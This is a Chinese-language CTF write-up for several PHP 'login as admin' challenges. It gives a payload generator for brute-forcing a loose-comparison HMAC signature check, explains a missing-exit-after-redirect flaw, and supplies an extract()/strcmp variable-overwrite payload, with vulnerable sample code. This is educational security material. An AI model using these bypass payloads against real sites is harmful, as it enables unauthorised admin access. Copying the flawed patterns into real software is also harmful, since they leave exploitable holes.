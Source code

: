 所以呢我们这样搞：

```text
$u['sig'] = 0;
$u['data'] = '{"0":"admin","1":"bool为真的随机字符串，这样才看得到flag"}';
```

然后碰运气`hash_hmac('sha512', $u['data'], $secret) == $u['sig']`，哪次hash_hmac返回的字符串不是数字开头就绕过去了。

首先生成payload

```php
<?php
$u['sig'] = 0;
for ($i = 97; $i <= 107; $i++)
{
    for ($k = 107; $k <= 117; $k++)
    {
        $u['data'] = '{"0":"admin","1":"2'.chr($i).chr($k).'"}';
        echo base64_encode(json_encode($u))."<br/>";
    }
}
```

保存一下，然后用burpsuite的intruder爆破。

![2](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/fd35dc80a5d3204a3e5cbed409b3ee75.png)

### login as admin 4

这个题演示了一个很经典的漏洞。

```php
if($_POST['name'] === 'admin') {
    if($_POST['password'] !== $password) {
        header('Location: ./?failed=1');
    }
}
echo $flag;
```

判断密码不对后要求浏览器跳转，但因为程序执行header函数之后并没有退出(`exit;`)，实际上后面的程序还是执行了。

还有一种是前端用js跳转并且程序也没有退出，后面也没有判断权限和是否登录啥的，也是一样的效果。也算是一种越权吧。

让我想起来两年前某天早上闲着没事，随手就进了我们学校新闻网站的后台逛了逛，用的也是这种漏洞（授权测试）。

### Login as Admin 6

看代码，考点很明确，就是extract变量覆盖。直接发送`data={"username":"admin","admin":"admin","password":{},"users":{"admin":"1"}}`即可，这里顺便利用了`strcmp`的特性。可以本地研究下：

```php
<?php
highlight_file(__FILE__);
$data = json_decode($_POST['data'], true);
extract($data);
if($users[$username] && strcmp($users[$username], $password) == 0) {
    $user = $username;
}
if($user == 'admin')
echo "flag{Ok}";

$data = [];
$data['username']='admin';
$data['admin']='admin';
$data['password']='admin';
$data['users']['admin']='admin';
echo json_encode($data);
?>
```